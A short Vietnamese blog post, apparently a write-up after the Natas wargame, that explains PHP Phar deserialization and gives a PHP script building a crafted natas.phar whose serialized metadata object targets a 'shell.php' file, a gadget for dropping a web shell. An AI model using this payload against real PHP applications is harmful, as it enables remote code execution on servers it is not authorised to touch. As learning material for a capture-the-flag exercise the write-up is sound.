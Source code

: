 # Phar Deserialization Attacks
- này là sau khi clear natas :))))
- Sau natas thì t thấy cái này là nổ não nhất nên làm một cái post nhỏ nhỏ để preview
## Phar?
Nôm na thì **Phar (PHP Archive)** nó là 1 định dạng tệp kiểu .zip,.. . Dùng để
1. Lưu trữ dữ liệu (*metadata*) .. //thì nó là định dạng tệp mà :)
2. Execute trực tiếp PHP nếu có *Stub* hợp lệ
- Yo nó là Excute PHP trực tiếp đó, theo tôi tìm hiểu thì nó sẽ thực thi các *magic method* (cái này nói sau)
## Hướng khai thác
- Vấn đề nó sẽ nằm ở việc khi một Phar phar://hehe.phar được thực thi, *Serialized* metadata sẽ *unserialized* :open_mouth:. Điều này có nghĩa ta có thể chèn metadata nguyên mẫu và thực thi các magic method (mặc dù đéo biết tại sao nó bị unserialized :))).
- Ví dụ nhé:
'<?php

class Executor{
    private $filename = "shell.php";
    private $signature = True;
    private $init = false;
}

$phar = new Phar('natas.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$object = new Executor();
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();

?>
'

